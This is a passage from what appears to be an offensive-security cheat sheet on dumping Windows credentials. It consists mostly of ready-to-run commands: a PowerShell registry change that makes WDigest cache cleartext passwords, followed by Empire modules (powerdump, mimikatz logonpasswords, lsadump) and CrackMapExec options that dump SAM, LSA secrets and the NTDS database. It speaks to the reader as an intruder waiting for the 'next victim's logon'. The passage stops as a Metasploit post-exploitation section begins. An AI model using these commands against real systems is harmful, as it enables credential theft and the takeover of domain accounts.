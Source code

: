 * From a Powershell session:
```
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest -Name UseLogonCredential -Type DWORD -Value 1
```

2. Wait the next victim's logon or make him restart or logoff

### With Empire
#### Local user accounts (server or workstation)
```
usemodule credentials/powerdump
```

#### Domain user accounts
1. From a server or workstation:
```
(Empire: <agent_name>) > mimikatz
```
> Equivalent to *usemodule credentials/mimikatz/logonpasswords*

2. From a Domain Controller:
```
usemodule credentials/mimikatz/lsadump
```

### With CrackMapExec
#### Local user accounts (server or workstation)
1. SAM:
```
#~ crackmapexec <proto> <target(s)> [-d <domain>] -u <user> [-p <password> | -H <NTLM>] --sam
```

2. LSA secrets:
```
#~ crackmapexec <proto> <target(s)> [-d <domain>] -u <user> [-p <password> | -H <NTLM>] --lsa
```

#### Domain user accounts
1. From a server or workstation:
```
#~ crackmapexec <proto> <target(s)> [-d <domain>] -u <user> [-p <password> | -H <NTLM>] -M mimikatz
```

2. From a Domain Controller:
```
#~ crackmapexec <proto> <target(s)> [-d <domain>] -u <user> [-p <password> | -H <NTLM>] --ntds
```

### With Metasploit
You have previously pwn a system and have a meterpreter session. You'll use post-exploitation modules so you have to background your meterpreter session:
```
meterpreter> background
```
